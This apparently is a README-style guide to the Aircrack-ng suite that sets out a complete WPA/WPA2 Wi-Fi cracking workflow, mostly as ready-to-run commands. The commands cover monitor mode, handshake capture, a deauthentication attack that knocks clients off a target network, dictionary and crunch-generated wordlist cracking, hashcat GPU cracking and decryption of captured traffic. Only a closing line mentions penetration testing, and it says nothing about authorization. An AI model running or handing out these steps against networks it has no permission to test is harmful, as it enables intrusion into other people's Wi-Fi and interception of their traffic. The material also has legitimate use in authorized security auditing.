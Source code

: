 # Aircrack-ng Suite Complete Guide

The **Aircrack-ng suite** is a complete set of tools to assess Wi-Fi
network security. It focuses on different areas of Wi-Fi security: -
Monitoring: Packet capture and export of data to text files for further
processing by third-party tools. - Attacking: Replay attacks,
deauthentication, fake access points, and others. - Testing: Checking
Wi-Fi cards and driver capabilities (capture and injection). - Cracking:
WEP and WPA/WPA2-PSK keys.

------------------------------------------------------------------------

## Common Tools in the Suite

-   **airmon-ng**: Enables monitor mode on wireless interfaces.
-   **airodump-ng**: Captures packets, including handshakes.
-   **aireplay-ng**: Injects packets for attacks like deauthentication.
-   **aircrack-ng**: Cracks WEP and WPA/WPA2-PSK keys.
-   **airdecap-ng**: Decrypts WEP/WPA/WPA2 capture files with known
    keys.

------------------------------------------------------------------------

## Typical Workflow for WPA/WPA2 Cracking

### 1. Enable Monitor Mode

``` bash
sudo airmon-ng start wlan0
```

This creates a monitor-mode interface (e.g., `wlan0mon`).

### 2. Capture Handshake

``` bash
sudo airodump-ng --bssid <BSSID> -c <channel> -w capture wlan0mon
```

-   `<BSSID>`: MAC address of target AP.
-   `<channel>`: Channel number.
-   `-w capture`: Output file prefix (e.g., `capture.cap`).

Wait for a client to connect or run a deauthentication attack:

``` bash
sudo aireplay-ng --deauth 10 -a <BSSID> -c <Client_MAC> wlan0mon
```

This forces a client to reconnect, capturing the handshake.

------------------------------------------------------------------------

## Extracting Wi-Fi Passwords from a .cap File with a Captured Four-Way Handshake

Once you have captured a WPA/WPA2 four-way handshake into a `.cap` file,
you can attempt to extract the Wi-Fi password using **aircrack-ng**.
Below are the step-by-step instructions:

### 1. Verify Handshake Capture

Before attempting cracking, ensure that the `.cap` file contains a valid
handshake.

``` bash
aircrack-ng capture.cap
```

-   Look for confirmation like `WPA handshake: <BSSID>` in the output.

### 2. Use a Wordlist to Crack the Password

Aircrack-ng uses dictionary attacks. You need a wordlist of potential
passwords. - Common example: `/usr/share/wordlists/rockyou.txt`

Run:

``` bash
aircrack-ng -w /path/to/wordlist.txt -b <BSSID> capture.cap
```

Where: - `-w` specifies the wordlist. - `-b` specifies the target BSSID
(the AP's MAC address). - `capture.cap` is your handshake file.

If the password is in the wordlist, aircrack-ng will display it:

    KEY FOUND! [ password_here ]

### 3. Using Crunch to Generate a Custom Wordlist (Optional)

If you suspect the password format, generate a tailored wordlist with
`crunch`. Example (8-digit numeric passwords):

``` bash
crunch 8 8 0123456789 -o numeric.txt
```

Then run aircrack-ng with this file:

``` bash
aircrack-ng -w numeric.txt -b <BSSID> capture.cap
```

### 4. GPU Acceleration (Optional)

For faster cracking, use **hashcat** with GPU support:

``` bash
hashcat -m 22000 handshake.hc22000 wordlist.txt
```

> Note: Convert `.cap` file to `.hc22000` with `hcxpcapngtool` before
> using hashcat.

### 5. Best Practices

-   Use strong, targeted wordlists (considering SSID-related patterns).
-   Ensure capture file has a complete handshake.
-   Use GPU acceleration when available for efficiency.

------------------------------------------------------------------------

## Decrypting Traffic with Known Keys

Once a WPA key is found, you can decrypt captured traffic:

``` bash
airdecap-ng -w password capture.cap
```

This outputs a decrypted `.cap` file for analysis.

------------------------------------------------------------------------

## Summary

The Aircrack-ng suite allows: 1. Putting Wi-Fi cards into monitor mode.
2. Capturing WPA/WPA2 four-way handshakes. 3. Using dictionary or custom
wordlists to crack Wi-Fi passwords. 4. Accelerating attacks with GPU
tools like hashcat. 5. Decrypting traffic once the key is known.

✅ With these steps, you can test `.cap` files for password recovery
using aircrack-ng or hashcat. This process is widely used in penetration
testing to audit Wi-Fi security.
